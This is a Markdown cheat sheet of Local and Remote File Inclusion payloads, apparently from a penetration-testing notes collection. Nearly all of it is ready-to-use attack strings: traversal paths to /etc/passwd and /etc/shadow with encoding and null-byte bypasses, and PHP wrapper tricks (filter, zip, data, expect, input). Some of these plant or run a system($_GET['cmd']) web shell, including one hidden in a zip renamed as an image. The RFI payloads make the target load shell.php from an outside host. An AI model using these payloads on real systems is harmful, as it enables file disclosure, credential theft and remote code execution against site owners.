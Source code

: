 # LFI & RFI

## LFI

### Where to find

* Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

### How to exploit

1. Basic payload

```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
http://example.com/index.php?page=..././..././..././..././..././etc/shadow
```

2. URL encoding

```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding

```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)

```
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd%00.png #any (jpg...etc) 
```

6. From an existent folder

```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation

```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=/var/www/html/../../../etc/passwd
```

8. Using PHP Wrappers: filter

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data

```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect

```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input

```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...

<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## RFI

### Where to find



* Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

### How to exploit



1. Basic payload

```
http://example.com/index.php?page=http://daffa.info/shell.php
```

2. URL encoding

```
http://example.com/index.php?page=http%3A%2F%2Fdaffa.info%2Fshell.php
```

3. Double encoding

```
http://example.com/index.php?page=http%253A%252F%252Fdaffa.info%252Fshell.php
```

4. Using Null Byte (%00)

```
http://example.com/index.php?page=http://daffa.info/shell.php%00
```
